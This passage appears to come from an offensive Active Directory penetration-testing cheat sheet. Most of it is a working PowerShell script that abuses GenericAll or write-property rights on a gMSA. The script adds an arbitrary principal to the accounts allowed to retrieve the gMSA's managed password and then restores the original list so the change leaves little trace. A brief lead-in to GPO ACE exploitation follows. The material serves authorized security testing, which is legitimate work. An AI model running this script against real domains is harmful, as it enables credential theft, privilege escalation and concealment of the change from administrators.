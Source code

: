 ###### GenericAll | Write-Property to all attributes or to the msDS-GroupMSAMembership attribute

The following PowerShell code snippet uses cmdlets from the PowerShell
ActiveDirectory module to add a principal to the `msDS-GroupMSAMembership`
attribute of a specified `gMSA` (while preserving the existing entries):

```bash
$gMSA = "<GMSA_ACCOUNT>"
# Example PRINCIPAL_NAME: <USERNAME> or <GROUPNAME> such as Domain Users,...
$PrincipalToAdd = "<PRINCIPAL_NAME>"

# Retrieves the principal(s) currently allowed to retrieve the gMSA's password.
Write-Host "Current PrincipalsAllowedToRetrieveManagedPassword:"
$originalPrincipalsAllowedToRetrieveManagedPassword = Get-ADServiceAccount -Properties PrincipalsAllowedToRetrieveManagedPassword $gMSA | Select-Object -ExpandProperty PrincipalsAllowedToRetrieveManagedPassword
$originalPrincipalsAllowedToRetrieveManagedPassword
Write-Host "`n"

# Grants the specified principal the right to retrieve the gMSA's password.
Write-Host "New PrincipalsAllowedToRetrieveManagedPassword:"
$newPrincipalsAllowedToRetrieveManagedPassword = @()
$newPrincipalsAllowedToRetrieveManagedPassword += $originalPrincipalsAllowedToRetrieveManagedPassword
$newPrincipalsAllowedToRetrieveManagedPassword += $PrincipalToAdd
$newPrincipalsAllowedToRetrieveManagedPassword
Set-ADServiceAccount -PrincipalsAllowedToRetrieveManagedPassword $newPrincipalsAllowedToRetrieveManagedPassword $gMSA
Write-Host "`n"

Write-Host "Validation of updated PrincipalsAllowedToRetrieveManagedPassword:"
Get-ADServiceAccount -Properties PrincipalsAllowedToRetrieveManagedPassword $gMSA
Write-Host "`n"

# The gMSA's password should be retrieve before restoration.

# Restore the gMSA's original PrincipalsAllowedToRetrieveManagedPassword.
Write-Host "Restoring original PrincipalsAllowedToRetrieveManagedPassword:"
Set-ADServiceAccount -PrincipalsAllowedToRetrieveManagedPassword $originalPrincipalsAllowedToRetrieveManagedPassword $gMSA
Get-ADServiceAccount -Properties PrincipalsAllowedToRetrieveManagedPassword $gMSA
```

### GPO ACEs exploitation

###### GPO enforcement

GPO can be linked to an Organizational Unit (OU) but not necessarily applied,
as an OU can `blocks inheritance` on an not `enforced` linked (`GPLink`) GPO or
a conflicting GPO with a higher precedence order may supplant the exploitable
GPO.
